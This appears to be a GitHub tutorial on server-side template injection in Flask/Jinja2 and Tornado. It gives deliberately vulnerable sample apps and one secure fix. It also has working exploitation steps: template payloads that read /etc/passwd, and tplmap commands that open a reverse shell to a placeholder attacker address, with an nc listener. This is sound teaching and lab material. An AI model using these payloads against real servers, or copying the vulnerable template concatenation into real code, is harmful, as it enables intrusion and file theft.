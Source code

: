 # SSTI-Basics
Basic overview of SSTI to RCE

Server-side template injection is when an attacker is able to use native template syntax to inject a malicious payload into a template, which is then executed server-side.

Template engines are designed to generate web pages by combining fixed templates with volatile data. Server-side template injection attacks can occur when user input is concatenated directly into a template, rather than passed in as data. This allows attackers to inject arbitrary template directives in order to manipulate the template engine, often enabling them to take complete control of the server. As the name suggests, server-side template injection payloads are delivered and evaluated server-side, potentially making them much more dangerous than a typical client-side template injection.


Vulnerable Code (Flask & Jinja2) Example 1

```
from flask import Flask, request
from jinja2 import Environment

app = Flask(__name__)
Jinja2 = Environment()

@app.route("/page")
def page():

    name = request.values.get('name')    
    output = Jinja2.from_string('Hello ' + name + '!').render()  // The name variable is concatenating to the template string

    return output

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=8080)
    
// URL: http://127.0.0.1:8080/page?name=
// Replace IP & Port for your environment

```
Secure Code (Flask)

```

from flask import Flask, request
from jinja2 import Environment

app = Flask(__name__)
Jinja2 = Environment()

@app.route("/page")
def page():

    name = request.values.get('name')   
    output = Jinja2.from_string('Hello {{name}}!').render(name = name)  // The name variable gets passed to the template context and processed server-side

    return output

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=8080)
    
// URL: http://127.0.0.1:8080/page?name=   
// Replace IP & Port for your environment    
```
SSTI Exploitation

SSTI Vulnerability Test

```
curl -g http://127.0.0.1:8080/page?name={{5*5}}
Output: Hello 25

```
SSTI /etc/passwd Test

```
curl -g "http://127.0.0.1:8080/page?name={{+''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read()+}}"

```

SSTI Reverse Shell

Expliot for Reverse Shell
```
python tplmap.py -u http://127.0.0.1:8080/page?name= --reverse-shell <attacker_ip> <attacker_port>
Example: python tplmap.py -u http://127.0.0.1:8080/page?name= --reverse-shell 10.10.10.10 1337
```
Capture Reverse Shell

```
nc -lvnp 1337

```
Vulnerable Code (Flask & Jinja2) Example 2

Create new file called vuln.py
```
from flask import Flask, request, render_template_string
from jinja2 import Template

app = Flask(__name__)
app.config.from_pyfile('config.py')

@app.route("/",  methods=['GET'])
def get_username():
    return render_template_string(
        """
        <form action="/hello">
            <label for="username">Enter username:</label><br>
            <input type="text" size="50" name="username" ><br>
            <input type="submit" value="Submit">
        </form> 
        """
    )

@app.route("/hello",  methods=['GET', 'POST'])
def say_hello():
    username = request.args.get('username')
    template = Template(
        """
        <h2> Hello <i style='color: royalblue;'> \
            {{ username }} </i>! Nice to meet you </h2>
        """
    )
    source = template.render(username=username)
    a = render_template_string(source)
    return a

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=9999)
```

Create config file called config.py
```
import os
VERY_SECRET = os.environ.get('VERY_SECRET')
```
Test Vulnerability
```
http://127.0.0.1:9999/hello?username={{5*5}}
```
Exfiltrate the /etc/passwd file
```
http://127.0.0.1:9999/hello?username={{''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read()}}
```
Get Reverse Shell
```
python tplmap.py -u http://127.0.0.1:9999/hello?username= --reverse-shell 10.10.10.10 1337
```

Vulnerable Code (Tornado) Example 1

Create new file called server.py
```
import tornado.template
import tornado.ioloop
import tornado.web
TEMPLATE = '''
<html>
 <head><title> Hello {{ name }} </title></head>
 <body> Hello FOO </body>
</html>
'''
class MainHandler(tornado.web.RequestHandler):
 
    def get(self):
        name = self.get_argument('name', '')
        template_data = TEMPLATE.replace("FOO",name)
        t = tornado.template.Template(template_data)
        self.write(t.generate(name=name))
 
application = tornado.web.Application([
    (r"/", MainHandler),
], debug=True, static_path=None, template_path=None)
 
if __name__ == '__main__':
    application.listen(9999)
    tornado.ioloop.IOLoop.instance().start()
```
Access the web application
```
http://127.0.0.1:9999/?name=ajin
```
Test for vulnerability
```
http://127.0.0.1:9999/?name={{2*2}}
```
Get Reverse Shell
```
python tplmap.py -u http://127.0.0.1:9999/?name= --reverse-shell 10.10.10.10 1337
```
